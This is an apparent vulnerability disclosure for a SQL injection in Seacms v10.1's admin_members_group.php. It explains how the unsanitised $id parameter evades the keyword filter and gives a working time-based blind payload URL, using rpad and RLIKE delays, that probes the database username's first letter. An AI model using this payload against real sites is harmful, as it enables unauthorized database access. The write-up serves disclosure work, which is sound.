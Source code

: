 # Seacms v10.1 (2020.02.08) latest version SQL injection

Download address on official website: https://www.seacms.net

Through code audit, the vulnerability points are`/5owghc/admin_members_group.php`

Note: after the program is installed, the background directory will be renamed randomly. Here it is changed to `5oghc`

![image-20200227163641920](./img/image-20200227163641920.png)

Line 55 variable $id spliced into SQL query，Follow up GetOne function，Using checksql function to filter the key words of SQL injection for variables，Can be bypassed。

**Payload**

```
http://10.2.7.9/5owghc/admin_members_group.php?action=edit&id=2%20and%20if(mid(user(),1,1)=%27r%27,concat(rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27))%20RLIKE%20%27(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2bcd%27,1)
```

Check the first letter of database user name，"t" No delay.

![image-20200227164458385](./img/image-20200227164458385.png)

Success delay when "r"

![image-20200227164642382](./img/image-20200227164642382.png)

Malicious statement successfully brought into database for execution, SQL injection exists.
